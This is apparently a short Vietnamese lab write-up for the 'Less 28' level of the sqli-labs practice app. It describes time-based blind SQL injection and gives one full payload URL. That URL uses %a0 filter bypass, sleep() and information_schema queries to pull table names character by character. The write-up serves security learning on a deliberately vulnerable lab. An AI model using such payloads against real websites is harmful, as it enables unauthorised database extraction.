





# Less 28

Yêu cầu truyền vào ID từ đề bài



Nhập thử vào 1 giá trị



Tôi thấy ở bài này không hiển thị ra lỗi trên màn hình nhưng có thể biết được thông tin của DB thông qua time based



Show chữ đầu tiên version của DB



Hoặc chữ đầu tiên trong 1 bảng của DB

```
http://192.168.84.233/sqli-labs/Less-28/?id=1%27%a0and%a0if(substr((select%a0table_name%a0from%a0information_schema.tables%a0where%a0table_schema=%27security%27%a0limit%a00,1),1,1)=%27e%27,sleep(1),false)%a0and%a0%271%27=%271
```



Tương tự như vậy có thể thử để lấy đầy đủ thông tin của DB.

Thay vì làm thủ công để lấy thông tin ta cũng có thể dùng script